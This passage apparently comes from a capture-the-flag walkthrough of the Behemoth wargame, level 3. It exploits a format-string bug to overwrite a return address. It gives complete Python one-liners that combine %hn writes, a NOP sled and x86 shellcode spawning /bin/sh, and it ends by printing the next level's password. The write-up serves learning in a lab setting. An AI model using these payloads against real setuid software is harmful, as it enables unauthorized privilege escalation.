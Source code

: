 We have the return address set. Let's stop using radare. We will need to determine the return address location on the stack once more now. We however can't use radare's features to print the stack and will have to determine a new method to determine this address.

If you look closely at the stacks and outputs above, you can see that the 3rd "%08x" is a value starting with 0xffffd5--. This is actually an address on the stack. If we determine the byte offset between the stack address and this value, we can calculate our new stack address that needs modified. From the stack prints above, the return address sits 80 bytes past 0xffffd5ac. 

Let's run the program with our input and see what that new pointer address becomes. Then we will add 0x50 onto it.
```bash
behemoth3@behemoth:/tmp/smhbehemoth3$ python -c 'print "\xfc\xd5\xff\xff" + "AAAA" + "\xfe\xd5\xff\xff" + "%08x.%08x.%08x.%08x.%54575u.%hn%10911u%hn" + "\x90"*50 + "\x6a\x31\x58\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x54\x5b\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"' | /behemoth/behemoth3 
Identify yourself: Welcome, ����AAAA����000000c8.f7fc75a0.ffffd5cc.f7fe2fc9.
```
We see the value is now 0xffffd5cc. Adding 0x50 we get 0xffffd61c. Let's change our lower and upper 16-bit addresses to be 0xffffd61c and 0xffffd61e. We also need to change what value we assign in the lower 16-bits so we jump in our NOPs. Perform the same calculation in reference to a NOP now to determine the new "%u". And I throw a reminder that we may need to pass ";cat" to the executable too to keep the shell open once we get it.

```bash
behemoth3@behemoth:/tmp/smhbehemoth3$ (python -c 'print "\x1c\xd6\xff\xff" + "\xff\xff\xff\xff" + "\x1e\xd6\xff\xff" + "%08x.%08x.%08x.%08x.%54620u.%hn%10866u%hn" + "\x90"*50 + "\x6a\x31\x58\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x54\x5b\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"';cat) | /behemoth/behemoth3
aaaand goodbye again.
whoami
behemoth4
ietheishei
```

Nice, we got the password to the next level.

I will add a link to a walkthrough on the rest of the behemoth levels as soon as they are written up. I hope you enjoyed the read. Please comment below if you have any questions or comments!
